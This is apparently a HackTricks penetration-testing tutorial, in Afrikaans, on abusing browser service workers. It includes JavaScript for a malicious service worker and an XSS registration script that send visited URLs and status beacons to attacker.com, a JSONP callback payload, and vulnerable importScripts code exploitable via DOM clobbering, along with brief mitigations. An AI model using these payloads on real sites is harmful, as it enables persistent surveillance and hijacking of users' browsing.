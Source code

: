# Misbruik van Dienswerkers

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

'n **dienswerker** is 'n skrif wat deur jou blaaier in die agtergrond uitgevoer word, geskei van enige webblad, wat funksies moontlik maak wat nie 'n webblad of gebruikersinteraksie vereis nie, en dus **aflyn en agtergrondverwerking** vermoëns verbeter. Gedetailleerde inligting oor dienswerkers kan [hier](https://developers.google.com/web/fundamentals/primers/service-workers) gevind word. Deur dienswerkers binne 'n kwesbare webdomein te misbruik, kan aanvallers beheer verkry oor die slagoffer se interaksies met alle bladsye binne daardie domein.

### Kontroleer vir Bestaande Dienswerkers

Bestaande dienswerkers kan nagegaan word in die **Dienswerkers** afdeling van die **Toepassing** oortjie in **Ontwikkelaar Gereedskap**. 'n Ander metode is om [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) te besoek vir 'n meer gedetailleerde weergawe.

### Drukkennisgewings

**Drukkennisgewing toestemmings** het 'n direkte impak op 'n **dienswerker** se vermoë om met die bediener te kommunikeer sonder direkte gebruikersinteraksie. As toestemmings geweier word, beperk dit die dienswerker se potensiaal om 'n voortdurende bedreiging te wees. Omgekeerd, die toekenning van toestemmings verhoog sekuriteitsrisiko's deur die ontvangs en uitvoering van potensiële ontploffings moontlik te maak.

## Aanval om 'n Dienswerker te Skep

Om hierdie kwesbaarheid te misbruik, moet jy vind:

* 'n manier om **arbitraire JS** lêers na die bediener op te laai en 'n **XSS om die dienswerker** van die opgelaaide JS-lêer te laai
* 'n **kwesbare JSONP versoek** waar jy die **uitset kan manipuleer (met arbitraire JS kode)** en 'n **XSS** om die **JSONP met 'n payload** te **laai wat 'n kwaadwillige dienswerker sal laai**.

In die volgende voorbeeld gaan ek 'n kode aanbied om 'n **nuwe dienswerker te registreer** wat na die `fetch` gebeurtenis sal luister en **elke opgevraagde URL na die aanvallers se bediener sal stuur** (dit is die kode wat jy nodig het om te **oplaai** na die **bediener** of te laai via 'n **kwesbare JSONP** antwoord):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
En dit is die kode wat die **werker** sal **registreer** (die kode wat jy moet kan uitvoer deur 'n **XSS** te misbruik). In hierdie geval sal 'n **GET** versoek na die **aanvallers** bediener gestuur word om te **ken** of die **registrasie** van die dienswerker suksesvol was of nie:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
In die geval van die misbruik van 'n kwesbare JSONP-eindpunt, moet jy die waarde binne `var sw` plaas. Byvoorbeeld:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Daar is 'n **C2** toegewy aan die **uitbuiting van Service Workers** genoem [**Shadow Workers**](https://shadow-workers.github.io) wat baie nuttig sal wees om hierdie kwesbaarhede te misbruik.

Die **24-uur cache riglyn** beperk die lewe van 'n kwaadwillige of gecompromitteerde **service worker (SW)** tot hoogstens 24 uur na 'n XSS kwesbaarheid regstelling, met die aanname van aanlyn kliëntstatus. Om kwesbaarheid te minimaliseer, kan webwerf operateurs die SW skrip se Time-To-Live (TTL) verlaag. Ontwikkelaars word ook aangeraai om 'n [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) te skep vir vinnige deaktivering.

## Misbruik van `importScripts` in 'n SW via DOM Clobbering

Die funksie **`importScripts`** wat vanaf 'n Service Worker aangeroep word, kan **'n skrip van 'n ander domein** invoer. As hierdie funksie aangeroep word met 'n **parameter wat 'n aanvaller kan** verander, kan hy 'n **JS skrip van sy domein** invoer en XSS verkry.

**Dit omseil selfs CSP beskermings.**

**Voorbeeld kwesbare kode:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Met DOM Clobbering

Vir meer inligting oor wat DOM Clobbering is, kyk:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

As die URL/domein waar die SW gebruik maak van **`importScripts`** **binne 'n HTML-element** is, is dit **moontlik om dit te verander via DOM Clobbering** om die SW **'n skrip van jou eie domein te laat laai**.

Vir 'n voorbeeld hiervan, kyk na die verwysingsskakel.

## Verwysings

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
